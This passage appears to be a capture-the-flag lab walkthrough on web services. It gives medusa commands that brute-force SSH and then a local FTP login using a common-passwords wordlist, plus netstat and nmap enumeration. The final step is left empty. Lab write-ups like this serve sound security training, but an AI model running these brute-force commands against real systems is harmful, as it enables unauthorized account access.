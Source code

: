 # Web Services

### What was the password for the ftpuser?

Getting the flag:

**Step 1** - Launch the attack with this password [wordlist](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt):

* {% code overflow="wrap" %}
  ```bash
  medusa -h <SERVER_IP> -n <SERVER_PORT> -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
  ```
  {% endcode %}
*

    <figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 2** - Login to the server with the password we just found:

* {% code overflow="wrap" %}
  ```bash
  ssh sshuser@<SERVER-IP> -p SERVER_PORT
  ```
  {% endcode %}
*

    <figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Expand the Attack Surface:

* Execute the **netstat** command to listen open ports and listen service:
  *   ```bash
      netstat -tulpn | grep LISTEN
      ```


  *   And we found the port 21 open

      <figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
* Confirm the port 21 is open with nmap:
  * ```bash
    nmap 127.0.0.1
    ```
  *

      <figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 4** - Targeting the FTP Server:

* Brute-force the authentication mechanism:
  * ```bash
    medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5
    ```
    *



**Step 5** - Retrieve the flag:
